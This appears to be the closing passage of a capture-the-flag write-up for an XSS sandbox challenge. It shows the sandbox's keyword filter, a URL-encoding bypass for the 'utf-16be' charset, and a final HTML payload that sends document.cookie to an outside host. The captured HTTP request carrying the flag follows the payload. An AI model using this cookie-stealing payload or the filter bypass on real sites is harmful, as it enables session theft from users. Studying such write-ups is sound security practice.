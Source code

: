 The original sandbox removes 'utf-16be' from our input:

```javascript
while (html.match(/meta|srcdoc|utf-16be/i)) html = html.replace(/meta|srcdoc|utf-16be/i, '');
```

This is easy to bypass, as we can just url encode `utf-16be` to `utf-16b%65` with this:

```javascript
payload = payload.replace('utf-16be','utf-16b%65');
```

The final corrected payload is

```html
<link rel="import"><link rel="import" href="/sandbox?html=%3Cscript%20src%3D%22%2Fsandbox%3Fhtml%3D%2500%253D%25000%2500%250A%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500%253D%2500%2522%2500%252F%2500%252F%2500i%2500t%2500s%2500z%2500n%2500.%2500c%2500o%2500m%2500%252F%2500%2522%2500%252B%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%22%20charset%3D%22utf-16b%65%22%3E%3C%2Fscript%3E">
```

Waiting for the request back we see

```
GET /?flag=CTF{no-problem-this-can-be-fixed-by-adding-a-single-if} HTTP/1.1
Host: itszn.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
X-DevTools-Request-Id: 2811.24
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/59.0.3071.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
```

And we have captured the flag! `CTF{no-problem-this-can-be-fixed-by-adding-a-single-if}`
